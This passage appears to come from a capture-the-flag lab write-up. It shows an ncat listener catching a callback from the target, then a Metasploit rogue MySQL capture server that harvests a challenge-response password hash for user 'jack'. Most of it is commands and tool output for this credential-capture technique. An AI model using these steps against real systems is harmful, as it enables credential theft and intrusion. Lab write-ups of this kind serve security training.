 This results in a connection on our ncat listener. from the target machine.

```
$ nc -lnvp 3306
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::3306
Ncat: Listening on 0.0.0.0:3306
Ncat: Connection from 10.129.228.82.
Ncat: Connection from 10.129.228.82:39778.
```

To capture the mysql login credentials we can use metasploit's `auxiliary/server/capture/mysql` module.
We set the value for `JOHNPWFILE` to `/tmp` to save the hash to a file in john format and run the module. Sending the request in repeater again the target tries to authenticate to us and we are able to retrieve the password hash.

```
$ sudo msfdb run
...[snip]...
msf6 > use server/capture/mysql
msf6 auxiliary(server/capture/mysql) > set JOHNPWFILE /tmp/
JOHNPWFILE => /tmp/
msf6 auxiliary(server/capture/mysql) > options

Module options (auxiliary/server/capture/mysql):

   Name        Current Setting                           Required  Description
   ----        ---------------                           --------  -----------
   CAINPWFILE                                            no        The local filename to store the hashes in Cain&Abel format
   CHALLENGE   112233445566778899AABBCCDDEEFF1122334455  yes       The 16 byte challenge
   JOHNPWFILE  /tmp/                                     no        The prefix to the local filename to store the hashes in JOHN format
   SRVHOST     0.0.0.0                                   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT     3306                                      yes       The local port to listen on.
   SRVVERSION  5.5.16                                    yes       The server version to report in the greeting response
   SSL         false                                     no        Negotiate SSL for incoming connections
   SSLCert                                               no        Path to a custom SSL certificate (default is randomly generated)


Auxiliary action:

   Name     Description
   ----     -----------
   Capture  Run MySQL capture server


msf6 auxiliary(server/capture/mysql) > run
[*] Auxiliary module running as background job 0.
msf6 auxiliary(server/capture/mysql) >
[*] Started service listener on 0.0.0.0:3306
[*] Server started.
[+] 10.129.228.82:39898 - User: jack; Challenge: 112233445566778899aabbccddeeff1122334455; Response: bcd7323fe921ced57a1bedbda67f9d2d63b8badb
```
